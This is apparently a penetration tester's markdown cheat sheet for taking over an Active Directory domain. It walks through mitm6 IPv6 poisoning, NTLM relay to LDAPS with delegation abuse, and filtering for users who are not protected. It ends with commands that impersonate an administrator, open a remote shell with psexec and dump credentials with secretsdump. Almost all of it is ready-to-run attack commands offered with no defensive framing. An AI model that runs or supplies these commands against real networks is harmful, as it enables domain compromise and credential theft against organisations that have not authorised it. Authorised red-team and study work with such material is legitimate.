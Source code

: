 #### Check LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method LDAPS -dc-ip <IP>
```

#### Start mitm6 and NTLMRelay
```
sudo mitm6 -d <DOMAIN> --ignore-nofqdn
sudo ntlmrelayx.py -t ldaps://<DC IP> --delegate-access 
```

- When computer account is created. This account can be used to enumerate the domain!

#### Check for a user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound). Maybe another command to check if user is admin on a machine? Is that possible? We should check!
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
$creds = Get-Credential
Get-DomainUser -Credential $creds -Domain <DOMAIN> -Server <DC IP> | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
Export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```
